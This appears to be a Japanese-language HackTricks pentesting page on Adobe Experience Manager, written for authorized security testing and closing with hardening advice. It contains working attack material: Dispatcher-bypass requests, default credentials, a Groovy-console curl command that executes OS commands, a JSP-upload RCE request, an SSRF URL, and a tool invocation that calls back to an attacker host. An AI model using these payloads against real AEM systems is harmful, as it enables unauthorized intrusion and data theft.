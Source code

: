 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, part of the Adobe Experience Cloud) は、Apache Sling/Felix (OSGi) と Java Content Repository (JCR) の上で動作するエンタープライズCMSです。
> 攻撃者の視点から見ると、AEMインスタンスは非常に頻繁に危険な開発エンドポイント、弱いDispatcherルール、デフォルトの認証情報、そして四半期ごとにパッチが適用される長いCVEのリストを露出します。

以下のチェックリストは、実際のエンゲージメントで繰り返し現れる**外部から到達可能な（認証なしの）攻撃面**に焦点を当てています（2022-2025）。

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
他の迅速な指標：
* `/etc.clientlibs/` 静的パスが存在（JS/CSSを返す）。
* `/libs/granite/core/content/login.html` 「Adobe Experience Manager」バナー付きのログインページ。
* `</script><!--/* CQ */-->` HTMLの下部にあるコメント。

---

## 2. 高価値の未認証エンドポイント

パス | 取得できるもの | ノート
---- | ------------- | -----
`/.json`, `/.1.json` | **DefaultGetServlet**を介したJCRノード | よくブロックされるが、*Dispatcherバイパス*（下記参照）が機能する。
`/bin/querybuilder.json?path=/` | QueryBuilder API | ページツリー、内部パス、ユーザー名の漏洩。
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felixコンソール | デフォルトで403; もし公開され、認証情報が見つかれば⇒ バンドルアップロードRCE。
`/crx/packmgr/index.jsp` | パッケージマネージャー | 認証されたコンテンツパッケージを許可→ JSPペイロードのアップロード。
`/etc/groovyconsole/**` | AEM Groovyコンソール | もし公開されれば→ 任意のGroovy / Java実行。
`/libs/cq/AuditlogSearchServlet.json` | 監査ログ | 情報漏洩。
`/libs/cq/ui/content/dumplibs.html` | ClientLibsダンプ | XSSベクター。

### Dispatcherバイパスのトリック
ほとんどのプロダクションサイトは*Dispatcher*（リバースプロキシ）の背後にあります。そのフィルタールールは、許可された静的拡張子を**セミコロンまたはエンコードされた改行の後に追加することで**バイパスできます：
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
単一のリクエストは、ユーザープロファイルノードとメールアドレスを頻繁に開示します。P-T Partnersはこの脆弱性に関する良いガイダンスを公開しました。 【】

---

## 3. 一般的な誤設定（2025年にも生き残っている）

1. **匿名POSTサーブレット** – `POST /.json` に `:operation=import` を使用すると、新しいJCRノードを植え付けることができます。Dispatcherで `*.json` POSTをブロックすることで修正できます。 【】
2. **世界中から読み取り可能なユーザープロファイル** – デフォルトのACLは `/home/users/**/profile/*` に対して `jcr:read` を全員に付与します。
3. **デフォルトの資格情報** – `admin:admin`、`author:author`、`replication:replication`。
4. **WCMDebugFilter** 有効 ⇒ `?debug=layout` を介した反射型XSS（CVE-2016-7882、レガシー6.4インストールでまだ発見されています）。
5. **Groovyコンソールが公開されている** – Groovyスクリプトを送信することでリモートコード実行が可能です：
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. 最近の脆弱性（サービスパックのサイクル）

四半期 | CVE | 影響を受ける | 影響
------- | --- | -------- | ------
2024年12月 | **CVE-2024-43711** | 6.5.21以前 | 不適切な入力検証 → **任意のコード実行**（低権限の認証が必要）。 【】
2024年12月 | CVE-2024-43724/26 | 6.5.21以前 | Move Page WizardにおけるDOM / ストレージ型XSS。 【】
2023年12月 | CVE-2023-48452/68 | ≤ 6.5.18 | 作成されたURLを介したDOMベースのXSS。 【】
2022年12月 | CVE-2022-30683 | ≤ 6.5.13 | 暗号設計の欠陥 → 秘密の復号（低権限の資格情報が必要）。 【】

常に顧客のサービスパックに一致する*APSB* bulletinを確認し、最新の **6.5.22** または *Cloud Service 2024.11* をリクエストしてください。

---

## 5. 悪用スニペット

### 5.1 DispatcherバイパスによるRCE + JSPアップロード
匿名書き込みが可能な場合：
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Now request `/content/evil.jsp` – JSPはAEMプロセスユーザーで実行されます。

### 5.2 SSRFからRCEへの攻撃（歴史的 < 6.3）
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py`は**aem-hacker**からフルチェーンを自動化します。 【】

---

## 6. ツール

* **aem-hacker** – スイスアーミーナイフの列挙スクリプト、ディスパッチャーバイパス、SSRF検出、デフォルトクレデンシャルチェックなどをサポートします。
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – 隠れたコンポーネントを発見するために`/_jcr_content.(json|html)`を再帰的にリクエストします。
* **osgi-infect** – クレデンシャルが利用可能な場合、`/system/console/bundles`を介して悪意のあるOSGiバンドルをアップロードします。

---

## 7. ハードニングチェックリスト（レポートの推奨事項用）

1. インスタンスを**最新の累積サービスパック**（2025年7月現在：6.5.22）に保つ。
2. デフォルトアカウントを削除/ローテーションし、SSO/SAMLを強制する。
3. **ディスパッチャーフィルター**を厳格化する – 匿名ユーザーに対して`;`、エンコードされた改行、`*.json`または`*.querybuilder.json`を拒否する。
4. コンソール（`/system/console`、`/crx/*`、`/etc/groovyconsole`）をIP許可リストで無効化または保護する。
5. Adobeが提供する*匿名権限ハードニング*パッケージを適用する。

## 参考文献

* Adobe Security Bulletin APSB24-69 – “Adobe Experience Managerのセキュリティ更新（2024年12月）”。
* 0ang3el – aem-hackerツール（GitHub）。
{{#include ../../banners/hacktricks-training.md}}
